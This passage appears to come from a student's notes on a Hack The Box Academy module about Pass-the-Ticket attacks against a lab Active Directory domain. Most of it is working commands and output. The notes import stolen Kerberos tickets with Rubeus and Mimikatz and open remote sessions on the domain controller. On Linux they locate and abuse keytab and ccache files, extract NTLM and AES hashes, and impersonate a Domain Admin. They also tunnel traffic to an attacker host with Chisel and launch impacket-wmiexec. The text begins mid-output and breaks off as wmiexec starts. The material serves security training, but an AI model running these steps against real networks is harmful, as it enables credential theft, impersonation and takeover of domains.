      Qp3QMwJjPEKVYVK9f+uahPXQJSQ7uvTgfj3N5m48YBDuZEJUJ52vQgEctNrDEUP6wlCU5M0DLAnHrVl4
      Qy0qURQa4nmr1aPlKX8rFd/3axl83HTPqxg/b2CW2YSgEUQUe4SqqQgRlQ0PDImWUB4RHt+cH6D563n4
      PN+yqN20T9YwQMTEIWi7mT3kq8JdCG2qtHp/j2XNuqKyf7FjUs5z4GoIS6mp/3U/kdjVHonq5TqyAWxU
      wzVSa4hlVgbMq5dElbikynyR8maYftQk+AS/xYby0UeQweffDOnCixJ9p7fbPu0Sh2QWbaOYvaeKiG+A
      GhUAUi5WiQMDSf8EG8vgU2gXggt2Slr948fy7vhROp/CQVFLHwl5/kGjRHRdVj4E+Zwwxl/3IQAU0+ag
      GrHDlWUe3G66NrR/Jg8zXhiWEiViMd5qPC2JTW1ronEPHZFevsU0pVK+MDLYc3zKdfn0q0a3ys9DLoYJ
      8zNLBL3xqHY9lNe6YiiAzPG+Q6OByDCBxaADAgEAooG9BIG6fYG3MIG0oIGxMIGuMIGroBswGaADAgEX
      oRIEED0RtMDJnODs5w89WCAI3bChCRsHSFRCLkNPTaIWMBSgAwIBAaENMAsbCXBsYWludGV4dKMHAwUA
      QOEAAKURGA8yMDIyMDcxMjE2Mjc0N1qmERgPMjAyMjA3MTMwMjI3NDdapxEYDzIwMjIwNzE5MTYyNzQ3
      WqgJGwdIVEIuQ09NqRwwGqADAgECoRMwERsGa3JidGd0GwdodGIuY29t
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 12:27:47 PM
  EndTime               :  7/12/2022 10:27:47 PM
  RenewTill             :  7/19/2022 12:27:47 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  PRG0wMmc4OznDz1YIAjdsA==
```

Note that it now displays ```Ticket successfully imported!```.

Another way is to import the ticket into the current session using the ```.kirbi``` file from desk.

```
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

...SNIP...
```

You can also use the Base64 output from Rubeus or convert a ```.kirbi``` to Base64 to perform the PtT attack. You can use PowerShell to convert a ```.kirbi``` to Base64.

```ps
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

doQAAAWfMIQAAAWZoIQAAAADAgEFoYQAAAADAgEWooQAAAQ5MIQAAAQzYYQAAAQtMIQAAAQnoIQAAAADAgEFoYQAAAAJGwdIVEIuQ09NooQAAAAsMIQAAAAmoIQAAAADAgECoYQAAAAXMIQAAAARGwZrcmJ0Z3QbB0hUQi5DT02jhAAAA9cwhAAAA9GghAAAAAMCARKhhAAAAAMCAQKihAAAA7kEggO1zqm0SuXewDEmypVORXzj8hyqSmikY9gxbM9xdpmA8r2EvTnv0UYkQFdf4B73Ss5ylutsSsyvnZYRVr8Ta9Wx/fvnjpJw/T70suDA4CgsuSZcBSo/jMnDjucWNtlDc8ez6...SNIP...
```

Using Rubeus, you can perform a PtT providing the Base64 string instead of the file name.

```
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/...SNIP...
 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

Finally, you can also perform the PtT attack using the Mimikatz module ```kerberos::ptt``` and the ```.kirbi``` file that contains the ticket you want to import.

```
C:\tools> mimikatz.exe 

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

* File: 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi': OK
mimikatz # exit
Bye!

c:\tools> dir \\DC01.inlanefreight.htb\c$

Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

#### PtT with PowerShell Remoting

PowerShell remoting allows you to run scripts or commands on a remote computer. Administrators often use PowerShell Remoting to manage remote computers on the network. Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session config.

##### Mimikatz

To user PowerShell Remoting with PtT, you can use Mimikatz to import your ticket and then open a PowerShell console and connect to the target machine. Once the ticket is imported into your cmd.exe session, you can launch a PowerShell command prompt from the same cmd.exe and use the command ```Enter-PSSession``` to connect to the target machine.

```
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```

##### Rubeus

Rubeus has the option ```createnetonly```, which creates a sacrificial process/logon session. The process is hidden by default, but you can specify the flag ```/show``` to display the process, and the result is the equivalent of ```runas /netonly```. This prevents the erasure of existing TGTs for the current logon session.

```
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3


[*] Action: Create process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : JMI8CL7C
[*] Domain          : DTCDV6VL
[*] Password        : MRWI6XGI
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648
```

The above command will open a new cmd window. From that window, you can execute Rubeus to request a new TGT with the option ```/ptt``` to import the ticket into your current session and connect to the DC using PowerShell Remoting.

```
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] Base64(ticket.kirbi):

      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
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```

### PtT from Linux

#### Kerberos in Linux

Windows and Linux use the same process to request a TGT and TGS. However, how they stroe the ticket information may vary depending on the Linux distro and implementation.

In most cases, Linux machines store Kerberos tickets as ccache files in the ```/tmp``` dir. By default, the location of the Kerberos ticket is stored in the environment variable ```KRB5CCNAME```. This variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed. These ccache files are protected by specific read/write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets.

Another everyday use of Kerberos in Linux is with keytab files. A keytab is a file containing pairs of Kerberos principals and encrypted keys. You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password. However, when you change your password, you must recreate all your keytab files.

Keytab files commonly allow scripts to authenticate automatically using Kerberos without requiring human interaction or access to a password stored in a plain text file. For example, a script can use a keytab file to access files stored in the Windows share folder.

#### Identifying Linux and AD Integration

You can identify if the Linux machine is domain-joined using [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd), a tool used to manage system enrollment in a domain and set which domain users or groups are allowed to access the local system resources.

```bash
david@inlanefreight.htb@linux01:~$ realm list

inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins
```

The output of the machine indicates that the machine is configured as a Kerberos member. It also gives you information about the domain name and which users and groups are permitted to log in, which in this case are the users David and Julio and the group Linux Admins.

In case realm is not available, you can also look for other tools used to integrate Linux with AD such as [sssd](https://sssd.io/) or [winbind](https://www.samba.org/samba/docs/current/man-html/winbindd.8.html). Looking for those services running in the machine is another way to identify if it is domain-joined.

```bash
david@inlanefreight.htb@linux01:~$ ps -ef | grep -i "winbind\|sssd"

root        2140       1  0 Sep29 ?        00:00:01 /usr/sbin/sssd -i --logger=files
root        2141    2140  0 Sep29 ?        00:00:08 /usr/libexec/sssd/sssd_be --domain inlanefreight.htb --uid 0 --gid 0 --logger=files
root        2142    2140  0 Sep29 ?        00:00:03 /usr/libexec/sssd/sssd_nss --uid 0 --gid 0 --logger=files
root        2143    2140  0 Sep29 ?        00:00:03 /usr/libexec/sssd/sssd_pam --uid 0 --gid 0 --logger=files
```

#### Finding Kerberos Tickets

As an attacker, you are always looking for credentials. On Linux domain-joined machines, you want to find Kerberos tickets to gain more access. Kerberos tickets can be found in different places depending on the Linux implementation or the administrator changing default settings.

#### Finding KeyTab Files

A straightforward approach is to use ```find``` to search for files whose name contains the word ```keytab```. When an admin commonly creates a Kerberos ticket to be used with a script, it sets the extension to ```.keytab```. Although not mandatory, it is a way in which admins commonly refer to a keytab file.

```bash
david@inlanefreight.htb@linux01:~$ find / -name *keytab* -ls 2>/dev/null

...SNIP...

   131610      4 -rw-------   1 root     root         1348 Oct  4 16:26 /etc/krb5.keytab
   262169      4 -rw-rw-rw-   1 root     root          216 Oct 12 15:13 /opt/specialfiles/carlos.keytab
```

Another way to find KeyTab files is in automated scripts configured using a cronjob or any other Linux service. If an admin needs to run a script to interact with a Windows service that uses Kerberos, and if the keytab file does not have the ```.keytab``` extension, you may find the appropriate filename within the script.

```bash
carlos@inlanefreight.htb@linux01:~$ crontab -l

# Edit this file to introduce tasks to be run by cron.
# 
...SNIP...
# 
# m h  dom mon dow   command
*5/ * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
carlos@inlanefreight.htb@linux01:~$ cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh
#!/bin/bash

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```

In the above script, you notice the use of ```kinit```, which means that Kerberos is in use. kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (_ccache file_). You can use kinit to import a keytab file into your session and act as the user.

In this example, you found a script importing a Kerberos ticket for the user ```svc_workstations@INLANEFREIGHT.HTB``` before trying to connect to a shared folder.

#### Findind ccache Files

A credential cache or ccache file holds Kerberos credentials while they remain valid and, generally, while the user's session lasts. Once a user authenticates to the domain, a ccache file is created that stores the ticket information. The path to this file is placed in the ```KRB5CCNAME``` environment variable. This variable is used by tools that support Kerberos authentication to find the Kerberos data.

```bash
david@inlanefreight.htb@linux01:~$ env | grep -i krb5

KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

ccache files are located, by default, at ```/tmp```. You can search for users who are logged on to the computer, and if you gain access as root or a privileged user, you would be able to impersonate a user using their ccache file while it is still valid.

```bash
david@inlanefreight.htb@linux01:~$ ls -la /tmp

total 68
drwxrwxrwt 13 root                     root                           4096 Oct  6 16:38 .
drwxr-xr-x 20 root                     root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

#### Abusing KeyTab Files

As attackers, you may have several uses for a keytab file. The first thing you can do is impersonate a user using kinit. To use a keytab file, you need to know which user it was created for. ```klist``` is another application used to interact with Kerberos on Linux. This app reads information from a keytab file.

```bash
david@inlanefreight.htb@linux01:~$ klist -k -t /opt/specialfiles/carlos.keytab 

Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

The ticket corresponds to the user Carlos. You can now impersonate the user with kinit. Confirm which ticket you are using with klist and then import Carlos's ticket into your session with kinit.

```bash
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```

You can attempt to access the shared folder ```\\dc01\carlos``` to confirm your access.

```bash
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

#### KeyTab Extract

Is a second method to abuse Kerberos on Linux where secrets from a keytab file are extracted. You were able to impersonate Carlos using the account's tickets to read a shared folder in the domain, but if you want to gain access to his account on the Linux machine, you will need his password.

You can attempt to crack the account's password by extracting the hashes from the keytab file. Use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type ```.keytab``` files, which may be used to authenticate Linux boxes to Kerberos. The script will extract information such as the realm, Service Principal, Encryption Type and Hashes.

```bash
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

With the NTLM hash, you can perform a PtH attack. With the AES256 or AES128 hash, you can forge your tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

The most straightforward hash to crack is the NTLM hash. You can use tools like Hashcat or John.

#### Obtaining more Hashes

You can repeat the process and crack the passwords.

#### Abusing KeyTab ccache

To abuse a ccache file, all you need is read privileges on the file. These files, located in ```/tmp```, can only be read by the user who created them, but if you gain root access, you could use them.

Once you log in with the credentials for the user, you can use ```sudo -l``` and confirm that the user can execute any command as root. Use ```sudo su``` to change the user to root.

```bash
d41y@htb[/htb]$ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
                  
svc_workstations@inlanefreight.htb@10.129.204.23's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)          
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```

As root, you need to identify which tickets are present on the machine, to whom they belong, and their expiration time.

```bash
root@linux01:~# ls -la /tmp

total 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA
```

There is one user to whom you have not yet gained access. You can confirm the groups to which he belongs using ```id```.

```bash
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Julio is a member of the Domain Admins group. You can attempt to impersonate the user and gain access to the DC01 DC host.

To use a ccache file, you can copy the ccache file and assign the file path to the ```KRB5CCNAME``` variable.

```bash
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```

#### Using Linux Attack Tools with Kerberos

Many Linux attack tools that interact with Windows and AD support Kerberos authentication. If you use them from a domain-joined machine, you need to ensure your ```KRB5CCNAME``` environment variable is set to the ccache file you want to use. In case you are attacking from a machine that is not a member of the domain, for example, your attack host, you need to make sure your machine can contact the KDC or DC, and that domain name resolution is working.

In this scenario, your attack host doesn't have a connection to the KDC / DC, and you can't use the DC for name resolution. To use Kerberos, you need to proxy your traffic via MS01 with a tool such as Chisel and Proxychains and edit the ```/etc/hosts``` file to hardcode IP addresses of the domain and the machines you want to attack.

```bash
d41y@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

You need to modify your proxychains config file to use socks5 and port 1080.

```bash
d41y@htb[/htb]$ cat /etc/proxychains.conf

...SNIP...

[ProxyList]
socks5 127.0.0.1 1080
```

You must download and execute chisel on your attack host.

```bash
d41y@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
d41y@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
d41y@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
d41y@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

Connect to MS01 via RDP and execute chisel.

```
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

Finally, you need to transfer Julio's ccache file from LINUX01 and create the environment variable ```KRB5CCNAME``` with the value corresponding to the path of the ccache file.

```bash
d41y@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

#### Impacket

To use Kerberos ticket, you need to specify your target machine name and use the option ```-k```. If you get a prompt for a password, you can also include the option ```-no-pass```.

```bash
d41y@htb[/htb]$ proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

